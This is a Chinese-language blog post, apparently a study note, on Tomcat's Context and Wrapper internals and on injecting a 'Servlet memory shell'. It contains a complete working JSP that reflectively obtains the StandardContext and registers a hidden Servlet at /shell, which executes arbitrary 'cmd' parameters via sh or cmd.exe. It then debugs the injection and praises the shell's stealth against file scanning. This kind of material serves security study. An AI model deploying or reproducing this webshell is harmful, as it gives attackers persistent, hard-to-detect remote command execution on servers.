




emmm.....本篇写的还不是很完善，学着后边的忘着后边的，后续边学边完善吧........

## 概述

由前边我们学习Tomcat知道了Container中的`Context`概念，`Context`负责管理一个 Web 应用程序的生命周期和配置。`Context` 作为 Tomcat 中 `Host` 容器的一部分，通常会有不同的实现类，每个实现类有不同的特性和用途。来看一下常见的 `Context` 以及相关的组件：

## StandardContext

这是最常用的 `Context` 实现。它通常用于开发和生产环境，适用于大多数 Web 应用。

`StandardContext` 是 Tomcat 中最常用的 `Context` 实现，主要用于管理 Web 应用程序的生命周期。它作为一个容器，负责加载和管理 Web 应用的所有资源，包括 `Servlet`、JSP 页面、静态文件等。在一个典型的 Web 应用中，`StandardContext` 是与应用相关的核心组件，它确保 Web 应用在启动时被正确初始化，在运行时能够处理请求，在停止时被销毁。

具体来说，`StandardContext` 主要负责从 Web 应用的 `web.xml` 配置文件或注解中读取 `Servlet` 配置，并在应用启动时加载这些 `Servlet`。当请求到达时，`StandardContext` 会根据请求的 URL 查找匹配的 `Servlet`，然后将请求传递给该 `Servlet` 来处理。它还负责 `Servlet` 实例的生命周期管理，包括 `Servlet` 的初始化、销毁等操作。除此之外，`StandardContext` 还支持配置 `Servlet` 的初始化参数、映射路径以及错误页面等。

## WrapperContext

`WrapperContext` 是 Tomcat 中一个较为特殊的 `Context` 实现，通常用于早期版本的 Tomcat，并且它的使用相对较少。它主要用于处理与 `Servlet` 相关的配置和生命周期管理，尤其是在 Web 应用程序中多个 `Servlet` 实例共享一个容器时。`WrapperContext` 实际上并不作为 Tomcat 中标准的 Web 应用容器，而更多地作为一种历史遗留实现，特定版本中用于提供对 `Servlet` 的管理支持。

`WrapperContext` 的核心功能是管理和封装 `Servlet` 的生命周期，包括 `Servlet` 的初始化、服务处理以及销毁。它通过将 `Servlet` 与 `Wrapper` 进行关联，提供了对 `Servlet` 实例的集中管理。在这个容器中，`Wrapper` 负责配置每个 `Servlet`，并且 `WrapperContext` 作为容器为这些 `Servlet` 提供运行环境。

此外，`WrapperContext` 在处理请求时，充当了请求和 `Servlet` 之间的中介。通过对 `Wrapper` 的配置，`WrapperContext` 确保特定的请求能够被分发到正确的 `Servlet` 进行处理。然而，随着 Tomcat 版本的更新和架构的演进，`WrapperContext` 的作用逐渐被其他更加灵活和可扩展的容器所替代，如 `StandardContext`，因此在现代的 Tomcat 环境中，它并不常用，更多的是作为对旧版本的支持。

### Wrapper

`Wrapper` 是一个封装了 `Servlet` 的组件。`Wrapper` 并不直接处理请求或定义 `Servlet` 的逻辑，它主要负责配置和管理与 `Servlet` 相关的操作，比如 `Servlet` 的初始化、销毁和配置参数。简单来说，`Wrapper` 是对一个 `Servlet` 的“封装”，它与 `Servlet` 实例紧密关联，但更多地作为容器内管理的角色，处理 `Servlet` 的生命周期和映射。

而 `WrapperContext` 并不是一个广泛使用的标准组件，而是特定版本中用于处理 `Wrapper` 的 `Context`。`WrapperContext` 实际上是用于管理和存储多个 `Wrapper`（即多个 `Servlet`）实例的容器。它的主要作用是集中管理与 `Servlet` 实例相关的配置、生命周期等。当 Tomcat 启动 Web 应用时，`WrapperContext` 会将各个 `Wrapper` 加载并管理，而每个 `Wrapper` 则对应一个具体的 `Servlet`。

## JSP Servlet内存马

至于Servlet的概念就不分析了，可以参考我的[Tomcat组件概念](https://www.cnblogs.com/erosion2020/p/18573756)这篇博客，下边这段代码是在IDEA中创建的基础模板上的index.jsp做的修改，参考我的帖子：[IDEA配置JAVA WEB环境](https://www.cnblogs.com/erosion2020/p/18574152)。

然后我们分析一下这段代码

重点关注一下往context中写入Servlet的过程即可，Servlet本身没什么好说的

```jsp
<%@ page contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="javax.servlet.Servlet" %>
<%@ page import="javax.servlet.ServletConfig" %>
<%@ page import="javax.servlet.ServletException" %>
<%@ page import="javax.servlet.ServletRequest" %>
<%@ page import="javax.servlet.ServletResponse" %>

<%!
  // 定义一个简单的 Servlet 用于执行系统命令，Servlet没什么可说的，和正常的接口没什么区别，主要是看一下如何动态获取context，并且往context里边写入Servlet的
  Servlet servlet = new Servlet() {
    @Override
    public void init(ServletConfig servletConfig) throws ServletException {
      // 初始化逻辑（可为空）
    }

    @Override
    public ServletConfig getServletConfig() {
      return null; // 不需要配置
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
      // 获取传入的命令参数
      String cmd = servletRequest.getParameter("cmd");
      if (cmd == null || cmd.trim().isEmpty()) {
        servletResponse.getWriter().println("No command specified.");
        return;
      }
      // 判断windows类型并调用cmd指令
      boolean isLinux = !System.getProperty("os.name").toLowerCase().contains("win");
      String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
      String output = executeCommand(cmds);
      servletResponse.setContentType("text/plain");
      servletResponse.getWriter().println(output);
    }

    private String executeCommand(String[] cmds) {
      StringBuilder output = new StringBuilder();
      try (InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
           Scanner scanner = new Scanner(in).useDelimiter("\\a")) {
        if (scanner.hasNext()) {
          output.append(scanner.next());
        }
      } catch (IOException e) {
        output.append("Error executing command: ").append(e.getMessage());
      }
      return output.toString();
    }

    @Override
    public String getServletInfo() {
      return null;
    }

    @Override
    public void destroy() {
      // 销毁逻辑（可为空）
    }
  };
%>

<%
    // 使用反射获取 StandardContext 上下文
	// 在 JSP 中，request 是一个隐式对象，它是由 Servlet 容器（如 Tomcat）自动提供给每个请求的。request 对象是 HttpServletRequest 类型的实例，包含了与 HTTP 请求相关的信息，比如请求参数、请求头、请求方法等。你可以直接在 JSP 中使用它来获取这些信息。
	// HttpServletRequest继承了ServletRequest，所以可以取到ServletRequest.request这个字段
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
	// Request是一个继承了HttpServletRequest的对象，所以可以通过这种方式来拿到Request对象
    Request req = (Request) reqField.get(request);
	// Request提供了getContext的方法，所以这里可以取到context
    StandardContext stdContext = (StandardContext) req.getContext();

    
    String servletName = servlet.getClass().getSimpleName() + "_" + System.currentTimeMillis();
	// 创建并配置新的 Wrapper
    Wrapper newWrapper = stdContext.createWrapper(); 
    newWrapper.setName(servletName);
	// 设置为重启时加载
	// loadOnStartup默认值为-1，表示Servlet命中时加载
	// loadOnStartUp!=-1时，表示加载的优先级
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());

    // 将 Servlet 添加到上下文也就是context中，这样我们就能够访问到这个Servlet了
    stdContext.addChild(newWrapper);
    stdContext.addServletMappingDecoded("/shell", servletName);
%>

<!DOCTYPE html>
<html>
<head>
  <title>JSP - Hello World</title>
</head>
<body>
<h1><%= "Hello World!" %></h1>
<br/>
<a href="hello-servlet">Hello Servlet</a>
</body>
</html>
```

### **`ServletRequest`（原生 Request）**

`ServletRequest` 是 Java Servlet API 中定义的接口，它代表了客户端请求的基本信息。这个接口提供了一些通用的、与协议无关的方法，允许 Servlet 处理不同类型的请求。它是所有请求对象的父接口，无论是在 HTTP 请求、WebSocket 请求还是其他协议下，都会继承这个接口。

**主要功能：**

- 获取请求参数：`getParameter()`、`getParameterMap()` 等方法
- 获取请求头：`getHeader()`、`getHeaders()` 等方法
- 获取输入流：`getInputStream()`，获取请求体的原始内容（如 POST 数据）

**作用：** `ServletRequest` 接口定义了与客户端请求的交互方式，但它并不处理特定协议的细节。例如，它不关心 HTTP 的请求头、Cookie 或方法（如 GET、POST 等）。

**Tomcat 实现：** 在 Tomcat 中，`ServletRequest` 通常由 Tomcat 的底层组件创建，处理和传递，它在请求的初期阶段将原始的请求数据（包括输入流、参数等）交给 Servlet 来处理。这个对象通常是最“原始”的请求对象，只包含协议无关的基本信息。

### **`HttpServletRequest`（HTTP 协议 Request）**

`HttpServletRequest` 是 `ServletRequest` 的子接口，专门用于处理 HTTP 协议相关的请求信息。它不仅继承了 `ServletRequest` 的方法，还扩展了许多 HTTP 协议特有的功能，例如处理 HTTP 方法、请求头、Cookies、会话等。

**主要功能：**

- 获取 HTTP 请求的参数：`getParameter()`、`getParameterMap()` 等方法
- 获取 HTTP 请求头：`getHeader()`、`getHeaders()` 等方法
- 获取请求的 HTTP 方法（如 GET、POST）：`getMethod()`
- 获取请求的路径、URL：`getRequestURI()`、`getRequestURL()` 等方法
- 获取和设置 Cookies：`getCookies()`、`setCookies()` 等方法
- 获取 Session 信息：`getSession()`、`getSession(false)` 等方法

**作用：** `HttpServletRequest` 负责处理 HTTP 协议特有的内容。在 Tomcat 或其他 Servlet 容器中，`HttpServletRequest` 是用于处理 HTTP 请求的核心接口，它提供了比 `ServletRequest` 更丰富的功能，允许开发者访问和操作 HTTP 请求的各种细节，如请求方法、URL、参数、头部等。

**Tomcat 实现：** 在 Tomcat 中，`HttpServletRequest` 实际上是由 `RequestFacade` 类实现的。`RequestFacade` 类将 `ServletRequest` 接口提供的通用功能与 HTTP 协议特定的功能结合在一起。这个对象不仅封装了请求的基本数据，还添加了许多 HTTP 相关的信息和方法。`RequestFacade` 将通过底层的 `Request` 对象提供给开发者。

### **`Request`（Tomcat 封装对象）**

`Request` 是 Tomcat 内部实现的一个类，它继承了 `HttpServletRequest`，并进一步封装了 HTTP 请求的细节。它是 Tomcat 容器内部的一个重要对象，主要负责与 Tomcat 内部的容器机制（如 `StandardContext`、`Wrapper` 等）进行交互。

**主要功能：**

- 它封装了 `HttpServletRequest`，并且增加了与 Tomcat 容器相关的功能。
- `Request` 对象不仅包含 HTTP 请求的信息，还包含了与容器相关的上下文信息，如 Web 应用的 `StandardContext`。
- `Request` 对象还可以处理请求的生命周期、请求分发、请求的初始化等与容器有关的操作。

**作用：** 在 Tomcat 中，`Request` 对象是 HTTP 请求的核心封装，除了提供标准的 HTTP 请求方法，还承担了许多与容器相关的任务，比如管理请求的生命周期、执行请求转发等。Tomcat 中的 Servlet 容器组件会将 `Request` 对象传递给相应的 `Servlet` 进行处理。

**Tomcat 实现：** Tomcat 中的 `Request` 类是一个非常核心的类，负责将 HTTP 请求与 Web 应用的上下文（如 `StandardContext`）以及其他容器功能结合起来。通过 `Request` 对象，Tomcat 不仅能够向 Servlet 提供 HTTP 请求的信息，还能将请求与 Tomcat 的容器机制（如 Servlet 映射、上下文管理等）结合起来。

### 三个 `request` 对象之间的关系

- **`ServletRequest`** 是最原始的接口，定义了与请求相关的基本操作，但它不关心协议类型（如 HTTP 或其他）。它是所有请求类的父类。
- **`HttpServletRequest`** 继承自 `ServletRequest`，并专门用于处理 HTTP 协议的请求，提供了处理 HTTP 请求的扩展方法，比如请求方法、URL、Session、请求头等。
- **`Request`** 是 Tomcat 特有的实现类，继承了 `HttpServletRequest`，不仅包含 HTTP 请求的信息，还增加了与 Tomcat 容器相关的功能和上下文信息。`Request` 对象是在 Tomcat 内部用于处理 HTTP 请求的核心对象。

### 它们之间的继承关系：

```
ServletRequest
    ↑
HttpServletRequest
    ↑
Request (Tomcat 的内部实现)
```

## Debug Tomcat

让我们来调试一下这段恶意代码，看看他是怎么加载进Context中的，在index.jsp中的这几个地方打上断点：

* String cmd = servletRequest.getParameter("cmd");
* Field reqField = request.getClass().getDeclaredField("request");


这里注意到一个很有意思的地方，就是IDEA的debug watch框中，显示this对象是一个index_jsp@3635，这看起来就像是一个Java对象，虽然知道这些代码肯定要编译成Java代码，但是这里直接看到是一个Java对象还是觉得很好玩.....hhhhh，真有意思，后边再研究一下看是什么原理吧，继续debug。

断点会先命中我们设置context上下文的一段代码，中间会有创建Wrapper以及设置对应属性的过程，最终会调用StandardContext中的addChild方法，我们在org.apache.catalina.core.StandardContext.addChild()方法中打一个断点。



最终会调用super.addChild方法，也就是ContainerBase这个类，我们进去看一下，最终会被放到children中，再往后就是解锁、触发事件这些事儿了，就不用关心了。



最后添加完Servlet之后，代码会跳转到index.jsp中，执行context.addServletMappingDecoded，给servlet添加一个映射路径。其实就是告诉context路径和servlet的对应关系，当HTTP请求一个路径时，context就能找到对应的servlet。



然后通过浏览器访问内存马路径，然后拼接参数cmd=calc(经典弹计算器了)，然后回车



计算器被弹出。但是index.jsp的service方法并没有并命中，其实在服务启动的时候service就已经被命中了，而后续Tomcat直接使用Servlet内容的时候并不会命中jsp中的内容了，因为Servlet已经被加载到内存中，这就是内存马的强大之处。


普通shell以文件方式存在，做恶意文件识别相对来说是简单的，但是恶意代码被加载到内存中之后，想要查杀是非常困难的。

### 为什么无法调试到 `service` 方法？

1. **内存中的 `Servlet`**：
   - 这段代码的关键在于 **Servlet** 对象并不是通过文件系统加载的，而是通过动态代码注入到 Tomcat 的内存中。Tomcat 在启动时会根据 `web.xml` 或其他配置加载和初始化 Web 应用中的 `Servlet`，但是这里的 `Servlet` 是通过 `StandardContext` 动态创建并添加的，而不是从一个物理文件加载的。因此，它的类加载过程和传统的 Servlet 类加载不同。
2. **JVM 类加载机制**：
   - 在 Tomcat 启动过程中，Web 应用的 Servlet 是通过类加载器从磁盘加载并映射到 Web 应用的上下文中。而当通过动态创建 `Servlet` 对象并将其注入到 `StandardContext` 中时，Tomcat 会在内存中运行这个 Servlet。对于 JVM 来说，它并没有通过文件系统来加载这个 `Servlet`，因此传统的调试方法（例如在 `.jsp` 或 `.java` 文件中的断点调试）可能无法捕捉到这个 Servlet 的行为。

这就是 **内存马** 的强大之处，它能够直接在 **JVM 内存中运行**，不依赖于文件系统中的物理文件。因此，内存马的攻击方式相较于 WebShell 等基于文件的攻击有更高的隐蔽性，尤其是在调试和安全监控方面，难以直接通过文件扫描或常规的调试方法发现。

- **隐蔽性**：内存马不需要通过文件系统存储恶意代码，因此它可以绕过常规的文件扫描和文件系统监控工具。
- **持久性**：虽然内存马在服务器重启后可能会消失，但它可以在攻击者控制下实现自我复制或持久化，或者通过某些漏洞实现重启后重新加载。

## 补充

### 补充1

**Servlet 内存马** 并不是 "纯粹" 的内存马，它并没有完全达到内存马的无文件落地的特点。确实，**内存马的原始意图**是通过仅在内存中运行，避免文件系统的存在或痕迹，但通过 JSP 文件或其他形式的恶意文件载入和触发，**Servlet 内存马**仍然需要依赖于初始的文件落地和 Tomcat 重新加载。这使得它与传统的内存马（完全在内存中执行，不依赖于文件）有所不同。

### 补充2

上述篇幅里只debug了内存马的加载过程，其实Tomcat在初始化的时候会有很多Servlet被加载进来，有兴趣的话可以debug一下，下边的这个调用过程，这个过程其实就是内存马的原理，估计当时发现servlet内存马的人就是这么debug出来的：

```java
ContextConfig.configureContext()
	↓
Wrapper wrapper = this.context.createWrapper();
wrapper.setLoadOnStartup(servlet.getLoadOnStartup());
wrapper.setEnabled(servlet.getEnabled());
wrapper.setName(servlet.getServletName());
......
wrapper.setOverridable(servlet.isOverridable());
this.context.addChild(wrapper);
	↓
StandardContext.addChild(Container child)
	↓
ContainerBase.addChild(Container child)
	↓
ContainerBase.addChildInternal(Container child)
```

